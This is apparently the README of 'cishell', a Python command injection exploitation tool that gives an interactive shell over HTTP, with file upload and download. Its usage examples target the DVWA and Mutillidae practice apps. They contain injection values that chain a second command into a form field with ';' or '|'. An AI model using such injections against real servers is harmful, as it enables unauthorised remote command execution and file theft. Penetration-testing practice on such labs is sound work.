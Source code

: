 # cishell

**cishell** (**C**ommand **I**njection **Shell**) is a lightweight OS command injection exploitation tool.

It emulates the look of an interactive shell with below features:
 - Tab completion for remote directory/file name.
 - Navigate remote directory path with `cd` command.
 - Download/Upload file with `get`/`put` command.
 - Navigate command history with arrow key (up/down).

It's intended to provide a more user-friendly environment to interact with remote server via HTTP OS command injection in case interactive shell is not straightforward to obtain.

Python version 2.7.x is required to run this program on Linux and Mac OS X.

Please take a look at below projects if you are looking for more features:
 - [commix](https://github.com/commixproject/commix)
 - [weevely](https://github.com/epinna/weevely3)
 - [pyshell](https://github.com/praetorian-inc/pyshell)

## Usage
To get a list of all options:
    python cishell.py -h

**DVWA**
    python cishell.py -u "http://x.x.x.x/dvwa/vulnerabilities/exec/index.php" -p "ip=%3bINJECT_HERE&submit=submit" -H "Cookie: security=low; PHPSESSID=66e655868605ee08d581fb5a2fbecd89"

**Mutillidae**
    python cishell.py -u "http://x.x.x.x/mutillidae/index.php?page=dns-lookup.php" -p "target_host=127.0.0.1 | INJECT_HERE&dns-lookup-php-submit-button=Lookup+DNS"

![screencast](cishell.gif)

## Known Issues
 - Mac OS X ships with libedit instead of GNU readline and may cause issue with command history navigation.
